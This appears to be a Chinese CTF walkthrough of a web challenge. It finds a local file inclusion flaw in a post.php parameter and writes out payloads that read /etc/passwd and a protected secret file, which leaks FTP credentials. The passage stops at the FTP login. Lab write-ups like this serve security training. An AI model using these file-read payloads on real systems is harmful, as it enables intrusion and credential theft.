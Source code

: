 好像没有什么有趣的文件夹

```/robots.txt```显示两个文件
```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt

```

找到flag1，另外一个文件web上没有读权限


点开首页，随便点击一个产品页，发现url的格式为：```/post.php?post=striped.php```，看post参数是传入一个本地文件的名字。在想会不会存在本地文件读取漏洞

尝试payload:```/post.php?post=/etc/passwd```成功返回：
```
  root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```

由上面可以知道存在：
>ssh用户名：will,mat和toby
>ftp用户名：ftpuser

用文件包含漏洞读取上面没有读权限的文件```secret_file_do_not_read.txt```,payload为：```/post.php?post=/var/www/html/secret_file_do_not_read.txt```,显示下面内容：
```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777 
```

现在我们有了ftp的凭证，登录ftp
```